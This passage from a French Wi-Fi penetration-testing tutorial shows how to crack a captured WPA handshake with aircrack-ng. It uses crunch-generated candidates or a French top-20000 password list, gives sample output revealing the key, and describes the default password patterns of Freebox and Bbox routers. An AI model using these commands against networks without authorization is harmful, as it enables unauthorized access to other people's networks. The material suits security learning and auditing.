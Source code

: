 ### 1.3 - Cassage du mot de passe présent dans le fichier d'initialisation de connexion (Handshake)
L'objectif est maintenant de casser le mot de passe présent ce fichier `.cap` grâce à l'utilitaire `aircrack-ng`. Une liste de mots de passe doit être passée en paramètre ou directement générée.

#### 1.3.1 - Cassage de la clé grâce à une génération de mots de passe
L'outil crunch est un générateur de mot de passe aléatoire, il prend en paramètre une longueur de mot de passe et les caractères de ce dernier et génère toutes les possibilités. Dans cet exemple, un mot de passe de 8 à 25 caractères sera généré et contiendra uniquement les valeurs de l'alphabet. Chaque mot de passe généré est passé via le pipe à `aircrack-ng` :
```shell
crunch 8 25 abcdefghijklmnopqrstuvwxy | aircrack-ng -w - -b VV:II:CC:TT:IM:EE *.cap
```
Il n'y a qu'à attendre que le **mot de passe du wifi soit cracké**. Cependant, cette méthode n'est pas la plus efficace et la méthode suivante à beaucoup plus de chances de fonctionner.

#### 1.3.2 - Cassage de la clé grâce à une liste de mots de passe prédéfinie
L'utilitaire `aircrack-ng` peut prendre en paramètre une liste de mots de passe. Le [dépôt GitHub SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/richelieu-french-top20000.txt) en réuni un nombre conséquent et s'avère très utile dans ce cas. En effet, le point d'accès à pirater étant français dans ce cas, le "top" 20 000 des mots de passe français sera utilisé.

La commande est donc la suivante :
```shell
aircrack-ng -w richelieu-french-top20000.txt -b VV:II:CC:TT:IM:EE *.cap
```

Le fichier `.cap` est alors correctement cassé et le mot de passe en clair est visible, dans ce cas `jetaime` :
```shell
Aircrack-ng 1.6

[00:00:00] 57/59 keys tested (452.32 k/s)
Time left: 0 seconds                                      96.61%
KEY FOUND! [ jetaime ]

Master Key     : 31 B1 AC 4F DD AA BB BB CC DD EE FF GG HH AA 21
31 B1 AC 4F DD AA BB BB CC DD EE FF GG HH AA 21

Transient Key  : E7 1A E0 BB B7 06 F4 44 24 48 10 9A 33 BE 6E 03
E7 1A E0 BB B7 06 F4 44 24 48 10 9A 33 BE 6E 03
E7 1A E0 BB B7 06 F4 44 24 48 10 9A 33 BE 6E 03
84 ED FF 84 ED FF ED FF 75 ED FF 75 32 75 32 AA

EAPOL HMAC     : 24 48 10 9A 24 48 24 48 48 24 48 48 24 48 48 24
```

Note : Selon la marque du fournisseur d'accès, les points d'accès seront configurés avec une clé par défaut qui peut être trop longue pour être attaquée par force brute. Dans ce cas, il convient de relever le fournisseur en question et de se renseigner sur le schéma de mot de passe utilisé.
Par exemple, le schéma utilisé par le fournisseur *Free* pour ses *Freebox* sera :
```
<mot latin><chiffre ou caractère>-<mot latin><chiffre ou caractère>-<mot latin><chiffre ou caractère>-<mot latin><chiffre ou caractère>
```
Pour les *Bbox* fournies par *Bouygues*, les mots de passe seront des lettres en majuscules et chiffres d'une longueur de 26 à 30 caractères.
